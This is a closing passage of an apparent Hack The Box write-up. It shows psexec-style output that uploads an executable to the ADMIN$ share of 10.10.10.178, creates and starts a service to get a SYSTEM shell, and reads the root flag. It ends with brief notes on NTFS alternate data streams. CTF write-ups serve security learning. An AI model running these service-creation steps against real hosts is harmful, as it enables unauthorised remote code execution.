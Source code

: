     [*] Requesting shares on 10.10.10.178.....
    [*] Found writable share ADMIN$
    [*] Uploading file xHADOhNA.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service OtZQ on 10.10.10.178.....
    [*] Starting service OtZQ.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>cd ../..

    C:\>cd Users\Administrator\Desktop

    C:\Users\Administrator\Desktop>type root.txt
    6594c2eb084bc0f08a42f0b94b878c41

# Wrapping up

This box was interesting but a bit ctfish. I learn a few things about NTFS
alternate data stream and how to get them from a GNU/Linux box.

